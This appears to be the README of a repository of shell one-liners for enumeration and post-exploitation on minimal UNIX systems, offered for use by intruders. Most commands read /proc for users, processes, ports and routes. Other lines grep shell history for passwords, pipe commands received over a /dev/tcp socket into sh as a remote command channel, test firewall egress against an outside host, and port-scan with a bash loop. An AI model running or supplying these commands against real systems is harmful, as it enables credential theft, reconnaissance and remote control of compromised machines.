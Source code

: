 # lcdbins

An **lcdbin** is a lowest-common denominator binary - one which, with rare exceptions, should be present on any UNIX-based operating system. This repository is a collection of oneliners that use lcdbins to perform enumeration and post-exploitation activities that you'd normally use other tools for - such as id, netstat or python. Use them when you find yourself in a stripped-down environment where the usual tools aren't available.

Here is a list of the binaries used by the oneliners in this repository:

- awk
- bc
- cat
- echo
- grep
- ls
- printf
- read
- sed
- sort

Where possible, alternatives have been provided in case one binary is unavailable on your specific system; note that many of the commands below rely on procfs. Greetz to moogz for assistance and contributions.

## System Enumeration

Get kernel version information

```shell
cat /proc/version
cat /proc/sys/kernel/version
```

Get hostname

```shell
cat /proc/sys/kernel/hostname
```

Get current uid and gid

```shell
uid=$(cat /proc/self/status | awk -F'[ \t]' '{if(tolower($1) == "uid:") print $2 }'); gid=$(cat /proc/self/status | awk -F'[ \t]' '{if(tolower($1) == "gid:") print $2 }'); echo uid $uid gid $gid
```

Get group membership for uid

```shell
uid=1000; user=$(awk -F : -v x="$uid" '{if($3==x) print $1}' /etc/passwd); grep $user /etc/group
```

List environment variables

```shell
sed 's/\x0/\n/g' /proc/self/environ
```

List information about processes

```shell
echo PID NAME UID GID; pids=$(ls /proc | grep '^[0-9]*$'); for pid in $pids; do name=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "name:") print $2 }'); uid=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "uid:") print $2 }'); gid=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "gid:") print $2 }'); echo $pid $name $uid $gid; done;
```

List mounted filesystems

```shell
cat /proc/self/mounts
```

Find a filename without the `find` command

```shell
ls -R /etc 2> /dev/null | awk '/:$/&&f{s=$0;f=0}/:$/&&!f{sub(/:$/,"");s=$0;f=1;next}NF&&f{ print s"/"$0 }' | grep passwd
```

Search HISTFILE for credentials

```shell
x=(sql smbclient key password user); for i in ${x[@]}; do grep -i "$i" $HISTFILE; done
````

## Network Enumeration

Get local network interface addresses from /proc/net/fib_trie

```shell
awk '/32 host/ { print f } {f=$2}' /proc/net/fib_trie | sort -u
```

Parse listening TCP ports on /proc/net/tcp

```shell
for i in $(grep " 0A " /proc/net/tcp | awk -F "[ :]+" '{print $4}'); do printf "%d\n" "0x$i"; done | sort -un
for i in $(grep " 0A " /proc/net/tcp | awk -F "[ :]+" '{print $4}'); do echo "obase=10; ibase=16; $i" | bc; done | sort -un
```

Parse listening UDP ports on /proc/net/udp

```shell
for i in $(awk -F "[ :]+" '{if(NR >=2) print $4}' /proc/net/udp); do printf "%d\n" "0x$i"; done | sort -un
for i in $(awk -F "[ :]+" '{if(NR >=2) print $4}' /proc/net/udp); do echo "obase=10; ibase=16; $i" | bc; done | sort -un
```

Parse destination and gateway from /proc/net/route

```shell
echo Interface Destination Gateway; awk "NR >= 2" /proc/net/route |while read line; do printf '%s %d.%d.%d.%d %d.%d.%d.%d\n' $(echo $line | awk -F ' ' '{print $1}') $(echo $line | awk -F ' ' '{print $2}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }') $(echo $line | awk -F ' ' '{print $3}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }'); done
```

Print the ARP table

```shell
cat /proc/net/arp
```

## Network Connections (requires bash)

Connect to a port and execute the command received

```shell
exec 3<>/dev/tcp/127.0.0.1/31337; cat <&3 | sh
```

Use letmeoutofyour.net to check firewall ACLs for a port

```shell
exec 3<>/dev/tcp/letmeoutofyour.net/31337; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3 | grep w00tw00t
```

Use dyndns.org to find your public IP address

```shell
exec 3<>/dev/tcp/checkip.dyndns.org/80; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3
```

Scan TCP ports

```shell
for i in {1..9000}; do SERVER="127.0.0.1"; PORT=$i; (echo  > /dev/tcp/$SERVER/$PORT) &> /dev/null && echo "Port $PORT seems to be open"; done
```

## Miscellaneous

Get all IP addresses in a directory

```shell
grep -ro '[0-9]\{1,3\}\(\.[0-9]\{1,3\}\)\{3\}' /etc/* 2>/dev/null
grep -Ero '\b((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)(\.|$)){4}\b' /etc/* 2>/dev/null
```
